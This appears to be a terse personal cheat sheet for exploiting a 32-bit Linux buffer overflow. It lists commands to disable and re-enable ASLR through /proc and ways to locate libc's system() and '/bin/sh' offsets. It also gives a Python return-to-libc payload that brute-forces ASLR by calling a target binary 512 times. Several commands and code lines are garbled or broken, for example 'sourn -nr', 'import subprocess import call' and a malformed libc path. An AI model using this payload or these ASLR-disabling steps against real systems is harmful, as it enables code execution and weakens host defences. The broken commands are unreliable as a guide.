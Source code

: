 # Identify Security Patch Diff

```
find . -type f -exec md5sum {} \; | sed 's/\.[01]//g' > hashes
sort hashes | count -u  | sourn -nr
```

`s//g` - is to remove the version number from files

# Identify version of libc used / check if ASLR is enabled

`ldd example | grep system`
`ldd example | grep libc`

# Disable ASLR

echo 0 > /proc/sys/kernel/randomize_va_space

# Enable ASLR

echo 2 > /proc/sys/kernel/randomize_va_space

# Wowrking around ASLR

```
import subprocess import call
import struct

libc_base_addr = 0x<ONE ADDRESS CAPTURED WITH LDD on LIBC>
system_off = 0x<SYSTEM OFFSET>
exit_off =  0x<EXIT OFFSET>
arg_off = 0x<BIN SH MEMORY OFFSET>

system_addr = struct.pack("<I", libc_base_addr + system_off)
exit_addr = struct.pack("<I",  libc_base_addr + exit_off)
arg_addr = struct.pack("<I",  libc_base_addr + arg_off)

buf = 'A' * 150
buf += system_addr
buf += exit_addr
buf += arg_addr

i=0
while (i < 512):
  print "Try %s" %i
  i += 1
  ret = call(["overflow", buf]);
```

## Offset of system address

readelf -s /lib/i3860linux-gnu/libc.so.6 | grep system
Copy system offset

## Find memory location of a string

string -a -t x  /lib/i3860linux-gnu/libc.so.6 | grep /bin/sh
